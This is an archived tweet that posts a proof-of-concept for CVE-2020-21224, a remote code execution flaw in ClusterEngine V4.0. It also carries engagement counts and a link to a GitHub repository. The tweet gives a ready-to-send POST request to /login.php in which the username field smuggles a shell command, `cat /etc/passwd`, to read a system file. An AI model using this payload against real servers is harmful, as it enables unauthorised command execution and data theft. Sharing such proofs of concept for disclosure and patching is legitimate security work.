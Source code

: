 </tr></table>

---

# sec715
**https://twitter.com/sec715/status/1367110116311322624 _at 2021-03-03 13:50:26_**
<blockquote>
ClusterEngine V4.0 RCE (CVE-2020-21224)

POC:
POST /login.php

op=login&amp;username=;`cat /etc/passwd`&amp;password="

Ref:https://t.co/8bV9s3xT4x https://t.co/s0IXjkqAKn
</blockquote>

* https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EvjzVBeU4AM_r_H.png" alt="http://pbs.twimg.com/media/EvjzVBeU4AM_r_H.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---